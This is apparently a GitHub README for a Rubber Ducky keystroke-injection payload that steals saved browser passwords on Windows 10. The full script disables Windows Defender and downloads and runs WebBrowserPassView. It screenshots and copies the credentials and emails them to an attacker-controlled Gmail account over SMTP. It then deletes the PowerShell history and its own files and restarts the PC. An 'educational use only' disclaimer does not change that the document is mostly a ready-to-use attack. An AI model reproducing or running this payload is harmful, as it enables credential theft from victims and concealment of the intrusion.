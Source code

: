 # Web-Browser-Password-Grabber
Rubber ducky payload that downloads WebBrowserPasswordView file and screenshots / duplicates the passwords. Works for Windows 10.

Note:

This payload will only work IF:
  * The pc is running on windows 10
  * Windows Defender is disabled
  * There is no sophisticated antivirus installed.
 
 Runview:

This payload works by disabling windows defender, downloading an app that views all 
saved passwords on all browsers. The payload then screenshots the interface, and 
then copy-pastes all of the data. It then emails you all of the files that were created, 
removes powershell history & the payload, and then shut's down the pc.

**I AM NOT RESPONSIBLE FOR ANY MISUSE OF THIS PAYLOAD. IT'S USE IS FOR EDUCATIONAL AND TESTING USE ONLY. PLEASE DO NOT USE THIS IN ANY MALICIOUS WAYS!!!**

Payload:

```
DEFAULTDELAY 200
DELAY 500
GUI r
DELAY 200
ESCAPE
DELAY 200
TAB
DELAY 100
ENTER
DELAY 500
STRING virus & threat protection
DELAY 200
ENTER
DELAY 1200
TAB 
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 500
SPACE 
DELAY 500
ALT y
DELAY 100
GUI r
DELAY 300
STRING powershell
DELAY 300
CTRL-SHIFT ENTER
DELAY 500
ALT y
DELAY 500
STRING cd $home
ENTER
STRING powershell (new-object System.Net.WebClient).DownloadFile('https://github.com/Mythaman/Web-Browser-Password-Grabber/raw/main/WebBrowserPassView.exe','WebBrowserHandler.exe')
ENTER
DELAY 1000
STRING start 'WebBrowserHandler.exe'-WindowStyle maximized
ENTER
DELAY 500
WINDOWS PRINTSCREEN
DELAY 200
CTRL a
DELAY 200
CTRL c
DELAY 500
GUI r
DELAY 500
STRING powershell
DELAY 200
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 500
STRING cd $home
ENTER
STRING Stop-Process -Name 'WebBrowserHandler'
ENTER
STRING Remove-Item 'WebBrowserHandler.exe'
ENTER
STRING Remove-MpPreference -ExclusionPath C:\Users
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('YOUR-EMAIL-BEFORE-THE-@
SHIFT 2
STRING gmail.com', 'YOUR-EMAILS-PASSWORD');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'YOUR-EMAIL-BEFORE-THE-@
SHIFT 2
STRING gmail.com'
ENTER
STRING $ReportEmail.To.Add('YOUR-EMAIL-BEFORE-THE-@
SHIFT 2
STRING gmail.com')
ENTER
STRING $ReportEmail.Subject = 'Passwords Successfully Logged. Data includes Copy-Paste of credentials & a screenshot aswell.'
ENTER
STRING $ReportEmail.Body = Get-Clipboard
ENTER
STRING cd $home\Pictures\Screenshots
ENTER
STRING $Latest = gci $home\Pictures\Screenshots | sort LastWriteTime | select -last 1
ENTER
STRING Rename-Item $Latest
ENTER
DELAY 200
STRING FileToSend.png
ENTER
DELAY 200
STRING $ReportEmail.Attachments.Add('$home\Pictures\Screenshots\FileToSend.png')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING Remove-Item (Get-PSreadlineOption).HistorySavePath
ENTER
STRING Restart-Computer
ENTER
```
